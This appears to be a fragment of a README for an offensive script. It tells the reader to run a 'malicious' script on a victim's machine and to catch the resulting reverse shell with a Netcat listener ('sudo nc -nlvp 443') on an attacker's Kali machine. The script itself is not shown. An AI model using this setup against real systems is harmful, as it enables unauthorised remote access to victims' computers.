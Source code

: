 This script will be launched in the victim's machine. Before that, make sure you have connection to that machine, and in you Kali, use Netcat to be waiting for the port selected in the script.
---
                                                                  DEFAULT
                                                                    443
---

*COMMAND*
sudo nc -nlvp 443


This will initialize a process of listening, from you Atackers' Machine. Then, launch the malicius script in the Target 's machine. You will receive a Reverse Shell, with the minimum privileges..
👌

